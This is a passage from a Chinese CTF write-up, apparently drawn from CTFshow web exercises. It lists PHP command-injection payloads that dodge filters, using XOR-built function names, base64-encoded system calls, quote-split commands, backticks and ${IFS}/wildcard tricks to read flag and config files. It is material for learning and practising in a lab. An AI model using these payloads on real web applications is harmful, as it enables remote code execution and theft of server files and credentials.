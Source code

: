```php
?>
```

在运行结果中找到_GET即可，构造payload

> is_nan^64==>_G
>
> tan^15==>ET

```php
/?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag
```



------



例子

```bash
> c=highlight_file('config.php');
> c=$a='sys';$b='tem';$d=$a.$b;$d('cat config.php');
> system('ca""t config.php')
> system("ca''t config.php")
> c=passthru("ca''t \`ls\`");
> c=$a = base64_decode('c3lzdGVt');$b=base64_decode('Y2F0IGNvbmZpZy5waHA=');$a($b);
> c=passthru("ca''t \`ls\`")?>
> c=assert(base64_decode(%27c3lzdGVtKCdjYXQgY29uZmlnLnBocCcp%27))?>

> ?c=echo `$_POST[1]`?>
> post: 1=cat config.php

>?c=grep${IFS}%27{%27${IFS}fl???php
意思就是在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行
> ?c=/???/????64%20????.???
```



> 文章中例题多来源于CTFshow web入门板块